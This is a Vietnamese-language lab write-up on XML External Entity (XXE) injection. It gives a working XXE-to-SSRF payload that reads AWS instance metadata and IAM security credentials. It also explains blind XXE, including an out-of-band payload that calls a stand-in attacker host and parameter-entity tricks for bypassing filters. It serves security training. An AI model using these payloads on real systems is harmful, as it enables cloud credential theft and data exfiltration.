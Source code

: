 * Server lab đang được chạy trên `EC2` metadata của `AWS`. Nói sơ về `http://169.254.169.254` thì đây là địa chỉ IP nội bộ đặc biệt, được các dịch vụ điện toán đám mây như `AWS, Google Cloud, và Azure` sử dụng để cung cấp `metadata (siêu dữ liệu)` cho các máy ảo `(VM)` mà người dùng chạy trên hạ tầng của họ. `Metadata` này chứa thông tin về máy ảo, như `ID` của `instance`, loại `instance`, vùng, vùng sẵn sàng, khóa `SSH`, và nhiều thông tin khác.
* Tiến hành khai thác lab, và vẫn sẽ bắt request `Check Stock` như lab đầu tiên 
![image](https://hackmd.io/_uploads/r1UUJg-Gkg.png)
* Ta vẫn sẽ nhận về được kết quả check stock, có payload sau
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY url SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>
&url;
</productId><storeId>1</storeId></stockCheck>
```
* Ta sẽ thực hiện tạo `ENTITY` là `url` và truy xuất đến url `http://169.254.169.254/` 
![image](https://hackmd.io/_uploads/S1IGxx-M1l.png)
* Kết quả sẽ được trả về là latest, tiếp theo ta cần inject được url `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`. Vì `AWS` sẽ sử dụng endpoint này để cung cấp thông tin xác thực tạm thời cho các ứng dụng chạy trên `instance`, cho phép truy cập vào các dịch vụ của `AWS` khác mà không cần lưu trữ thông tin xác thực nguồn, vì thế để truy truy xuất được `KEY` mà đề bài yêu cầu ta sẽ cần truy xuất đến `/latest/meta-data/iam/security-credentials/admin`
![image](https://hackmd.io/_uploads/SJP2lxbG1l.png)
### 3. Blind XXE
* Trước khi đến với các lab tiếp theo, ta sẽ nói đến Blind XXE. 
* `Blind XXE` xảy ra khi ứng dụng dễ bị tấn công `XML External Entity Injection` nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào trong phản hồi của nó. Điều này có nghĩa là việc lấy trực tiếp các tệp từ phía máy chủ là không thể, do đó `Blind XXE` thường khó khai thác hơn so với lỗ hổng `XXE` thông thường.
* Có hai cách phổ biến để phát hiện và khai thác lỗ hổng blind XXE:
    * Kích hoạt tương tác mạng ngoài băng (out-of-band interaction), đôi khi có thể tiết lộ dữ liệu nhạy cảm trong thông tin tương tác.
    * Kích hoạt lỗi phân tích XML để lấy dữ liệu nhạy cảm thông qua thông báo lỗi.
#### 1. Detect Blind XXE OAST 
* Có thể phát hiện `Blind XXE` bằng cách sử dụng kỹ thuật tương tự như tấn công `XXE SSRF (Server-Side Request Forgery)`, nhưng lần này sẽ kích hoạt tương tác mạng ngoài băng đến một hệ thống mà bạn kiểm soát. Ví dụ:
    ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
    ```
* Thực thể `xxe` này sẽ được sử dụng trong một giá trị dữ liệu trong `XML`, làm cho máy chủ gửi một yêu cầu `HTTP` đến `URL` chỉ định. Kẻ tấn công có thể theo dõi tra cứu `DNS` và yêu cầu `HTTP` để xác nhận rằng tấn công `XXE` đã thành công.
* Đôi khi, `XXE` sử dụng thực thể thông thường bị chặn do ứng dụng có filtered `XML parser`. Trong trường hợp này, ta có thể sử dụng `XML parameter entities` thay thế. `XML parameter entities` là một loại thực thể `XML` đặc biệt chỉ có thể được tham chiếu trong DTD. `Parameter entity` được khai báo và tham chiếu bằng ký tự %
    ```xml
    <!ENTITY %myparameterentity "Giá trị của parameter entity">
    ```
* Và khi muốn tham chiếu đến parameter entity này, ta sử dụng ký tự % thay vì ký tự & thông thường: `%myparameterentity;
* Trong tấn công XXE (XML External Entity), kẻ tấn công có thể khai thác parameter entities khi các general entities bị chặn hoặc giới hạn bởi cấu hình bảo mật. `Parameter entities` có thể giúp vượt qua những rào cản này vì chúng được sử dụng trong DTD và có thể gây ra các tương tác mạng ngầm nếu chúng chứa liên kết đến một hệ thống bên ngoài.`
